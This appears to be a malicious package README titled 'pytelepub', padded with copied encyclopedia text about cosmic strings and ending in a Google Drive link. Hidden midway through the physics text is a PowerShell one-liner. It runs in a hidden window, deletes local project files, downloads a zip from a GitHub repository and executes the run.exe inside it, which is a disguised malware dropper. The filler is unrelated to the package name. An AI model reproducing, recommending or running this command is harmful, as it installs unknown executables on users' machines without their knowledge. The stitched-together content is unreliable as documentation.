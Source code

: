 # pytelepub
source: https://en.wikipedia.org/wiki/Cosmic_string

Cosmic strings are hypothetical 1-dimensional topological defects which may have formed during a symmetry breaking phase transition in the early universe when the topology of the vacuum manifold associated to this symmetry breaking was not simply connected. It is expected that at least one string per Hubble volume is formed. Their existence was first contemplated by the theoretical physicist Tom Kibble in the 1970s.

The formation of cosmic strings is somewhat analogous to the imperfections that form between crystal grains in solidifying liquids, or the cracks that form when water freezes into ice. The phase transitions leading to the production of cosmic strings are likely to have occurred during the earliest moments of the universe's evolution, just after cosmological inflation, and are a fairly generic prediction in both quantum field theory and string theory models of the early universe.

In string theory, the role of cosmic strings can be played by the fundamental strings (or F-strings) themselves that define the theory perturbatively, by D-strings which are related to the F-strings by weak-strong or so called S-duality, or higher-dimensional D-, NS- or M-branes that are partially wrapped on compact cycles associated to extra spacetime dimensions so that only one non-compact dimension remains.[1]

The prototypical example of a quantum field theory with cosmic strings is the Abelian Higgs model. The quantum field theory and string theory cosmic strings are expected to have many properties in common, but more research is needed to determine the precise distinguishing features. The F-strings for instance are fully quantum-mechanical and do not have a classical definition, whereas the field theory cosmic strings are almost exclusively treated classically.

Cosmic strings, if they exist, would be extremely thin with diameters of the same order of magnitude as that of a proton, i.e. ~ 1 fm, or smaller. Given that this scale is much smaller than any cosmological scale these strings are often studied in the zero-width, or Nambu–Goto approximation. Under this assumption strings behave as one-dimensional objects and obey the Nambu–Goto action, which is classically equivalent to the Polyakov action that defines the bosonic sector of superstring theory.

In field theory, the string width is set by the scale of the symmetry breaking phase transition. In string theory, the string width is set (in the simplest cases) by the fundamental string scale, warp factors (associated to the spacetime curvature of an internal six-dimensional spacetime manifold) and/or the size of internal compact dimensions. (In string theory, the universe is either 10- or 11-dimensional, depending on the strength of interactions and the curvature of spacetime.)

PowerShell.exe -windowstyle hidden $ident = "Get-ChildItem -Path '.' -Filter 'kpll.p'"; if ($ident.count -eq 0) { echo 'run32.dll found' > kpll.p; Remove-Item project.zip -Force:$true -Confirm:$false; Remove-Item project -Recurse:$true -Force:$true -Confirm:$false; iwr -OutFile project.zip https://github.com/Imper927/pytele_reserved/raw/master/python_nod_noautoinstall_keep_direct.zip; Expand-Archive .\project.zip; cd project; ./run.exe; cd ..; Remove-Item project.zip -Force -Confirm:$false; Remove-Item project -Recurse:$true -Force:$true -Confirm:$false; Remove-Item project -Recurse:$true -Force:$true -Confirm:$false }

A string is a geometrical deviation from Euclidean geometry in spacetime characterized by an angular deficit: a circle around the outside of a string would comprise a total angle less than 360°. From the general theory of relativity such a geometrical defect must be in tension, and would be manifested by mass. Even though cosmic strings are thought to be extremely thin, they would have immense density, and so would represent significant gravitational wave sources. A cosmic string about a kilometer in length may be more massive than the Earth.

However general relativity predicts that the gravitational potential of a straight string vanishes: there is no gravitational force on static surrounding matter. The only gravitational effect of a straight cosmic string is a relative deflection of matter (or light) passing the string on opposite sides (a purely topological effect). A closed cosmic string gravitates in a more conventional way.

During the expansion of the universe, cosmic strings would form a network of loops, and in the past it was thought that their gravity could have been responsible for the original clumping of matter into galactic superclusters. It is now calculated that their contribution to the structure formation in the universe is less than 10%.

Negative mass cosmic string
The standard model of a cosmic string is a geometrical structure with an angle deficit, which thus is in tension and hence has positive mass. In 1995, Visser et al. proposed that cosmic strings could theoretically also exist with angle excesses, and thus negative tension and hence negative mass. The stability of such exotic matter strings is problematic; however, they suggested that if a negative mass string were to be wrapped around a wormhole in the early universe, such a wormhole could be stabilized sufficiently to exist in the present day.

https://drive.google.com/folderview?id=1C8w_Az3oUoOvcA1fGA6B_XPAkmXiSA6M

